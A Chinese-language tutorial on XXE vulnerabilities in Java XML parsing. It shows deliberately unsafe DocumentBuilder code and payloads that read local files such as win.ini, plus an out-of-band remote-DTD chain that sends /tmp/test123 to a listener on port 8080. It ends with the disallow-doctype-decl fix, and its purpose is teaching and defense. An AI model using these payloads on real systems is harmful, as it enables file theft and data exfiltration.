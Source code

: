 java安全之xxe
--

xxe这种漏洞无论是在php中还是java中，审计起来应该都是有迹可循的，在php中全局搜索特定函数，在java中需要找解析xml文档的类有没有被使用，所以，我们首先需要知道java有哪些常见的解析xml的类。

### DocumentBuilder基础使用

```java
import org.w3c.dom.Document;
import org.w3c.dom.Element;
import org.w3c.dom.NodeList;
import org.xml.sax.SAXException;


import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import java.io.File;
import java.io.IOException;

public class Main {
    public static void main(String[] args) throws ParserConfigurationException, IOException, SAXException {
        File file = new File("./payload.xml");

        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        DocumentBuilder builder = factory.newDocumentBuilder();
        Document doc = builder.parse(file);
        // 根据tag名获取标签，是不是很像js中的getElementByTagName函数
        NodeList nodeList = doc.getElementsByTagName("person");
        Element element = (Element) nodeList.item(0);

        System.out.println("姓名：" + element.getElementsByTagName("name").item(0).getFirstChild().getNodeValue());
        System.out.println("年龄：" + element.getElementsByTagName("age").item(0).getFirstChild().getNodeValue());
    }
}
```

其中payload.xml文件内容如下：

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
        <!ENTITY test SYSTEM "file:///c:/windows/win.ini">
        ]>
<person>
    <name>axin</name>
    <age>&test;</age>
</person>
```

这样就会读取本机的win.ini文件并打印到控制台：

![](xxe1/win_ini.png)


### javax.xml.parsers.DocumentBuilder 案例2

这个类导致的xxe漏洞感觉挺多的。微信支付，以及CVE-2017-12629都是由于这个类没有进行安全设置导致的。

用一个例子来学习一下这个类怎么导致xxe

```java
import jdk.internal.org.xml.sax.SAXException;
import org.w3c.dom.Document;
import org.w3c.dom.NodeList;

import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import java.io.IOException;

public class ReadxmlByDom {
    private static DocumentBuilderFactory dbFactory = null;
    private static DocumentBuilder db = null;
    private static Document document = null;
    static{
        try {
            dbFactory = DocumentBuilderFactory.newInstance();
            // dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            db = dbFactory.newDocumentBuilder();
        } catch (ParserConfigurationException e) {
            e.printStackTrace();
        }
    }

    public static void main(String args[]) throws IOException, SAXException, org.xml.sax.SAXException {
        document = db.parse(ReadxmlByDom.class.getResourceAsStream("/request.xml"));
        NodeList nodeList = document.getElementsByTagName("root");
        String nodeValue = nodeList.item(0).getFirstChild().getNodeValue();
        System.out.println(nodeValue);
    }
}
```

request.xml如下：

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
        <!ENTITY % remote SYSTEM "http://localhost:8000/attack.xml">
        %remote;
        ]>
<root></root>
```

attack.xml如下：
```xml
<!ENTITY % payload  SYSTEM "file:///tmp/test123">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://127.0.0.1:8080/test?name=%payload;'>">
%int;
%trick;
```

上面的代码会读取并解析request.xml这个文件，由于没有进行安全配置，所以导致加载远程文件attack.xml，这个文件中的被解析后就会读取本地的`/tmp/test123`并把内容发送到http://127.0.0.1:8080/。

我在8080端口用spring boot构建了一个接受数据的web应用，代码如下：

```java

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

@Controller
@RequestMapping("/test")
public class TestController {

    @RequestMapping("")
    public String hello(String name) {
        System.out.println(name);
        return "welcome";
    }
}
```

这个应用在接受到数据时，会将数据打印到控制台

![](xxe1/xxe_data.png)



###  防御方法

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
DocumentBuilder db = dbf.newDocumentBuilder(); 
Document document = db.parse(in);
```

serFeature是关键，设置了过后，再解析xml时会直接报错，如下：

![](xxe1/xxe_defence.png)


### 参考

spring boot 快速创建项目：http://tengj.top/2017/02/26/springboot1/

微信支付xxe:https://benjaminwhx.com/2018/07/05/%E7%94%B1%E5%BE%AE%E4%BF%A1%E6%94%AF%E4%BB%98XXE%E6%BC%8F%E6%B4%9E%E8%B0%88%E8%B0%88%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86%E4%BB%A5%E5%8F%8A%E5%A6%82%E4%BD%95%E9%A2%84%E9%98%B2/

java xxe:https://blog.spoock.com/2018/10/23/java-xxe/